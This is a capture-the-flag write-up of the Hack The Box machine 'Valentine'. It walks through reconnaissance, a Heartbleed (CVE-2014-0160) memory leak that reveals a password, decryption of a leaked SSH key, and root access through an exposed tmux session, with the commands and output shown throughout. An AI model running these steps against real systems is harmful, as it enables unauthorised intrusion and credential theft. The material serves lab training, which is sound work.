


# Valentine (Linux)

## Enumeration

```
rustscan --ulimit 5000 10.129.1.190 -- -sC -sV -o port_scan


PORT    STATE SERVICE  REASON  VERSION                                                                                                                                                    
22/tcp  open  ssh      syn-ack OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)            
80/tcp  open  http     syn-ack Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http syn-ack Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Issuer: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
```

### Examine Port 80 - Apache webserver


```
└──╼ $ gobuster dir -u 10.129.1.190 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.129.1.190
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/26 12:55:32 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/decode (Status: 200)
/dev (Status: 301)
/encode (Status: 200)
/index (Status: 200)
/index.php (Status: 200)
/server-status (Status: 403)
```

Let's check out the found results one by one

#### Check: /cgi-bin/

The typical vulnerability that comes with the exposed /cgi/bin directory, is Shellshock. It enables RCE and must therefore carefully investigated.

However, it seems like no scripts are in there. At least I did not find them with any wordlist.

### Check: /decode & /encode



Here, we see some kind of service, that offers "Secure Data Decryption". We also have an Encoder service at /encode


### Check: /dev

The dev directory leaks two very interesting files. 
- hype_key: contains an apparently hex encoded string. When converting it to ascii, we can see it's a encrypted RSA private key. Probably for ssh.
- notes.txt:
    ```
    To do:

  1) Coffee.
  2) Research.
  3) Fix decoder/encoder before going live.
  4) Make sure encoding/decoding is only done client-side.
  5) Don't use the decoder/encoder until any of this is done.
  6) Find a better way to take notes.
    ```
    So apparently the decoder and encoder services do have some issues. Let's investiate them further. If we get stuck, we can still try the way of bruteforcing the RSA key password.


## Investigating the Decoder and Encoder Service

Testing the encoder, reveals that it's a simple base64 encoder.

```
Your input:
test
Your encoded input:
dGVzdA== 
```

Same counts for the decoder. It's able to decode base64:

```
Your input:
dGVzdA==
Your encoded input:
test 
```

So what could be the issue with this application? In the note it is stated `"Make sure encoding/decoding is only done client-side"`. Maybe we have some kind of "eval" on the backened that executes the `base64` command. If so, then we could insert a payload and force it to execute it. Let's try that.

Unfortunately, that's not the case. Hmm... what else could the issue be? Why would the note say it should only be done client-side? While looking through the different directories without having any idea what I missed, I recognized the picture that we saw on the index.html page. It's a big red heart, which is the logo of a very well known software bug, the Heartbleed bug.


*The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet. The Heartbleed bug allows anyone on the Internet to read the memory of the systems protected by the vulnerable versions of the OpenSSL software. This compromises the secret keys used to identify the service providers and to encrypt the traffic, the names and passwords of the users and the actual content. This allows attackers to eavesdrop on communications, steal data directly from the services and users and to impersonate services and users. (https://heartbleed.com/#:~:text=The%20Heartbleed%20Bug%20is%20a,used%20to%20secure%20the%20Internet.)*

If the data of encryption and decryption service is also executed server side, then we could leak previous requests to it, as they could still remain in the memory! Maybe it contains some valuable information. Let's try it!

## Gainining an Initial Foothold

As there exist tons of already working scripts, we can simply use one of them e.g. [this one](https://gist.github.com/eelsivart/10174134).
```
└──╼ $ python2 heartbleed.py 10.129.1.190 -p 443

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: 10.129.1.190:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.129.1.190:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==...r.i...u........yO
```

And indeed! It dumps memory of a previously requested decoding/encoding of another user!

Let's decode it and see what the plaintext is:

```
echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d

heartbleedbelievethehype
```

This looks like a password! As we have an encrypted rsa key, which was stored in `hype_key`, we can also now safely assume, that the username is probably `hype`.

Using openssl + the obtained password, we can now decrypt the key. 

```
openssl rsa -in encrpted_key -out hype_ssh_key
```

Afterwards we use it to connect to the server as user hype.

```
ssh -i hype_ssh_key hype@10.129.1.190

hype@Valentine:~$ hostname && id
Valentine
uid=1000(hype) gid=1000(hype) groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)
```

## Privilege Escalation

Running linpeas, we see that root has an open tmux session located in `/.dev/dev_sess`. As our user has permissions to that file, we can simply attach to it with:

```
tmux -S /.dev/dev_sess
```

And we are root!
```
root@Valentine:/.devs# hostname && id
Valentine
uid=0(root) gid=0(root) groups=0(root)
```